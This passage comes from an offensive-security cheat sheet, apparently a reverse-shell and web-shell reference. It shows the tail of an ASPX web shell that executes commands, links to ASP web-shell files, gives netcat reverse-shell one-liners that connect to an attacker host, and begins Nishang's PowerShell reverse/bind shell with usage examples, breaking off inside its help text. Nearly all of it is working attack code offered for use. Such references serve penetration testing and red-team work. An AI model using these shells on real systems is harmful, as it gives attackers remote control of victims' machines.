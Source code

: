 ```asp
    StreamReader stmrdr = p.StandardOutput;
    string s = stmrdr.ReadToEnd();
    stmrdr.Close();

    ctx.Response.Write(System.Web.HttpUtility.HtmlEncode(s));
    ctx.Response.Write("</pre>");
    ctx.Response.Write("<hr>");
    ctx.Response.Write("By <a href='http://www.twitter.com/Hypn'>@Hypn</a>, for educational purposes only.");
 }
}
```

See [shell.asa](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.asa "shell.asa"), [shell.asmx](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.asmx "shell.asmx"), [shell.asp](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.asp "shell.asp"), [shell.aspx](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.aspx "shell.aspx"), [shell.cer](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.cer "shell.cer"), [shell.soap](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.soap "shell.soap"), [shell.xamlx](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.xamlx "shell.xamlx").



## netcat

```bash
nc -e /bin/sh $ipAttacker $port

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ipAttacker $port >/tmp/f
```

## nishang project


Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming.  Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. [See nishang](nishang.md)

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
```